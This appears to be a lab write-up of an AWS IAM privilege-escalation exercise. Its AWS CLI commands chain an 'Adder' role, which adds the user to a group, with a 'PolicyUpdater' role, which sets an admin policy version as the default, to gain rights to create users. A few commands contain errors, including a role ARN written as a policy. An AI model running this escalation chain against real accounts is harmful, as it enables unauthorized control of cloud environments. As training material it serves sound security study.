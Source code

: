 ** Bad combination of Adder and PolicyUpdater role policies **
How to elevate privileges abusing on the combination of Adder and PolicyUpdater role policies

Setting AWS Credentials  
`aws configure`
Checking policies attached  to user  
`aws iam list-attached-user-policies --user-name student`
![[Pasted image 20210503121309.png]]
`aws iam list-user-policies --user-name student`
![[Pasted image 20210503121412.png]]
Trying to create an user - Denied action
`aws iam create-user --user-name Bob`
![[Pasted image 20210503121524.png]]
Checking user policy details
`aws iam get-user-policy --user-name student --policy-name terraform-20210211062254104700000002`
![[Pasted image 20210503121731.png]]
`aws iam list-role-policies --role-name Adder`
`aws iam get-role-policy --role-name Adder --policy-name Adduser`
![[Pasted image 20210503121946.png]]

Assuming Adder role
`aws sts assume-role --role-arn arn:aws:iam::645723898191:role/Adder --role-session-name adder_test`
![[Pasted image 20210503122209.png]]
Export credentials to environments variables
![[Pasted image 20210503122312.png]]
Show the identity
`aws sts get-caller-identity`

Adding user to a group
`aws iam add-user-to-group --group-name Printers --user-name student`
Unset environment variables
`unset AWS_ACCESS_KEY_ID`
`unset AWS_SECRET_ACCESS_KEY`
`unset AWS_SESSION_TOKEN`
List again user groups
`aws iam list-groups-for-user --user-name student`
![[Pasted image 20210503122754.png]]

Listing information about policies attached to PolicyUpdater role
`aws iam list-role-policies --role-name PolicyUpdater`
`aws iam get-role-policy --role-name PolicyUpdater --policy-name CreatePolicyVersion`
![[Pasted image 20210503123245.png]]
Getting policy by version
`aws iam list-attached-group-policies --group-name Printers`
`aws iam get-policy --policy-arn arn:aws:iam::645723898191:policy/Print`
![[Pasted image 20210503123503.png]]
`aws iam get-policy-version -policy-arn arn:aws:iam::645723898191:policy/Print --version-id v1`
![[Pasted image 20210503123609.png]]

Assuming PolicyUpdater role
`aws sts assume-role --role-arn arn:aws:iam::645723898191:policy/PolicyUpdater --role-session-name policy_test`
Export its credentials to environment variables
Show the identity
`aws sts get-caller-identity`

Creating new policy version
`nano newAdminPolicy.json`
`aws iam create-policy-version --policy-arn arn:aws:iam::645723898191:policy/Print --policy-document file://newAdminPolicy.json --set-as-default`
![[Pasted image 20210503124226.png]]
Show policies
`aws iam get-policy-version --policy-arn arn:aws:iam::645723898191:policy/Print --version-id v2`
`aws iam list-attached-group-policies --group-name Printers`
![[Pasted image 20210503124455.png]]

Confirming privileged access
Creating a new user - success
`aws iam create-user --user-name Bob`
![[Pasted image 20210503124652.png]]
